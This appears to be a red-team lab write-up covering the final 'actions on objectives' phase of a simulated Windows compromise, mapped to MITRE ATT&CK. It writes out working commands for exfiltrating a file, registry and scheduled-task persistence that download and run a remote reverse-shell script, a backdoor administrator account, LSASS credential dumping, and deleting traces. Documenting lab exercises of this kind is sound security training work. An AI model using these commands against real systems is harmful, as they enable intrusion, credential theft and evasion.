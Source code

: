 ## Phase 7: Actions on Objectives (TA0009)

**MITRE ATT&CK Phase:** TA0009 - Actions on Objectives  
**Objective:** Achieve final objectives such as data exfiltration, persistence, and credential extraction after gaining full SYSTEM-level access.

---

### ✅ Step 1: Identify Valuable Data (Discovery)
**Techniques:**
- **T1083 – File and Directory Discovery**
- **T1005 – Data from Local System**

Used PowerShell and Command Prompt commands to navigate the file system and locate sensitive documents:

```powershell
cd C:\Users\Server\Documents
```

Found the file `Top_Secrets.txt`.

---

### ✅ Step 2: Exfiltrate Data (Collection/Exfiltration)
**Technique:**
- **T1041 – Exfiltration Over Command and Control Channel**

Set up a Python HTTP server on the attacker machine:
```bash
python3 -m http.server 8000
```

Downloaded the file to the attacker’s system via PowerShell curl:
```powershell
Invoke-WebRequest -Uri http://192.168.50.10:8000/Top_Secrets.txt -OutFile Top_Secrets.txt
```

Alternatively used `certutil`:
```powershell
certutil -urlcache -split -f http://192.168.50.10:8000/Top_Secrets.txt Top_Secrets.txt
```

---

### ✅ Step 3: Establish Persistence

#### 🛠️ Step 3.1: Registry Run Key (T1547.001)
Added a reverse shell to run at startup via registry:
```powershell
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v updater /t REG_SZ /d "powershell -WindowStyle Hidden -nop -c \"iex(New-Object Net.WebClient).DownloadString('http://192.168.50.10:8000/rev.ps1')\"" /f
```

#### 🛠️ Step 3.2: Add Admin User (T1136.001)
Created a new persistent admin user:
```powershell
net user backdoor Passw0rd! /add
net localgroup administrators backdoor /add
```

#### 🛠️ Step 3.3 (Optional): Scheduled Task for Reverse Shell (T1053.005)
```powershell
schtasks /create /tn "SystemUpdater" /tr "powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command IEX(New-Object Net.WebClient).DownloadString('http://192.168.50.10:8000/rev.ps1')" /sc ONSTART /ru SYSTEM
```

---

### ✅ Step 4: Extract More Credentials
**Technique:**
- **T1003.001 – LSASS Memory Dump**

Dumped LSASS using procdump:
```powershell
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

Downloaded and analyzed with mimikatz or secretsdump to extract further credentials.

---

### ✅ Step 5: Cleanup Traces
**Technique:**
- **T1070.004 – File Deletion**

Deleted artifacts like tools, scripts, downloaded files, and log entries:
```powershell
del rev.ps1
reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v updater /f
schtasks /delete /tn "SystemUpdater" /f
net user backdoor /del
```

---

### 🔐 MITRE Techniques Summary:
- **T1083** – File and Directory Discovery
- **T1005** – Data from Local System
- **T1041** – Exfiltration Over C2 Channel
- **T1547.001** – Registry Run Key Persistence
- **T1136.001** – Create Local Account
- **T1053.005** – Scheduled Task
- **T1003.001** – LSASS Credential Dumping
- **T1070.004** – File Deletion

---

### ✅ Conclusion
In this final phase, I achieved the objective of maintaining access, extracting credentials, exfiltrating sensitive files, and erasing traces. With this, the full red team kill chain simulation is complete.

All steps were documented and screenshots were taken for verification.

---
